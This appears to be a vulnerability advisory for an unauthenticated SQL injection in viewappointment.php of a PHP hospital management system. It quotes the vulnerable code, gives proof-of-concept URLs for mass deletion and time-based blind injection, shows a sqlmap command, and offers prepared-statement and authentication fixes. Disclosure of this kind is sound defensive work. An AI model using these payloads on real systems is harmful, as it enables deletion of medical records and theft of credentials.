



# Online Hospital Management System has SQL Injection vulnerability in viewappointment.php

## Supplier

https://code-projects.org/online-hospital-management-system-in-php-with-source-code/

## Vulnerability file

```
viewappointment.php
```

## describe

In `viewappointment.php`, there is an unrestricted SQL injection vulnerability in the Online Hospital Management System. The controllable parameter is `delid`. This parameter is directly concatenated into a DELETE SQL query without any sanitization or parameterized query protection. The vulnerability can be triggered by **any unauthenticated remote attacker** — no login session is required, as the file lacks any authentication check before processing the `delid` parameter. Malicious attackers can exploit this vulnerability to delete all appointment records, bypass authentication, or extract sensitive database information (including admin credentials).

**Code analysis**

The vulnerable code resides at the top of `viewappointment.php`:

php

```
<?php
session_start();
include("headers.php");
include("dbconnection.php");
if(isset($_GET[delid]))
{
    $sql ="DELETE FROM appointment WHERE appointmentid='$_GET[delid]'";
    $qsql=mysqli_query($con,$sql);
    if(mysqli_affected_rows($con) == 1)
    {
        echo "<script>alert('appointment record deleted successfully..');</script>";
    }
}
?>
```


The `$_GET['delid']` value is taken directly from the URL and inserted into the SQL query string without any validation, escaping, or use of prepared statements. Additionally, there is **no authentication check** (e.g., verifying `$_SESSION['patientid']` or `$_SESSION['adminid']`) before executing this deletion logic, meaning the vulnerability is exploitable by anyone who can reach the URL.

## POC

### 1. Basic Deletion Proof (Direct Parameter)

Access the following URL to delete an appointment with ID 1:

text

```
http://[target]/Hospital/viewappointment.php?delid=1
```


### 2. Mass Deletion via SQL Injection

Access the following URL to delete **all records** from the `appointment` table:

text

```
http://[target]/Hospital/viewappointment.php?delid=1' OR '1'='1
```


The resulting SQL becomes:

sql

```
DELETE FROM appointment WHERE appointmentid='1' OR '1'='1'
```


Since `'1'='1'` always evaluates to TRUE, every row in the table is deleted.

### 3. Time-Based Blind SQL Injection

Use the following payload to verify the vulnerability via time delay:

text

```
http://[target]/Hospital/viewappointment.php?delid=1' AND (SELECT SLEEP(5)) AND '1'='1
```


The page will delay its response by 5 seconds, confirming that arbitrary SQL code can be executed.

### 4. Automated Exploitation with sqlmap

bash

```
sqlmap -u "http://[target]/Hospital/viewappointment.php?delid=1" --level 3
```


**sqlmap Output Confirmation:**








## Impact

Successful exploitation allows an attacker to:

- **Delete all appointment records** without authentication
- **Extract sensitive data** from the database using blind SQL injection techniques
- **Retrieve admin credentials** by dumping the `tbl_login` table
- **Compromise the entire application** by gaining administrative access

## Remediation

1. **Use Prepared Statements** instead of direct string concatenation:

php

```
if(isset($_GET['delid'])) {
    $stmt = $con->prepare("DELETE FROM appointment WHERE appointmentid = ?");
    $stmt->bind_param("i", $_GET['delid']);
    $stmt->execute();
}
```


2. **Add Authentication and Authorization Checks** before any sensitive operation:

php

```
if(!isset($_SESSION['patientid']) && !isset($_SESSION['adminid'])) {
    header('Location: login.php');
    exit;
}
```


3. **Validate Resource Ownership** — ensure the user owns the record they are attempting to delete:

php

```
$check = $con->prepare("SELECT patientid FROM appointment WHERE appointmentid = ?");
$check->bind_param("i", $_GET['delid']);
$check->execute();
$result = $check->get_result()->fetch_assoc();
if($result['patientid'] != $_SESSION['patientid'] && !isset($_SESSION['adminid'])) {
    die("Unauthorized");
}
```


4. **Change HTTP Method** — sensitive state-changing operations should use POST requests instead of GET.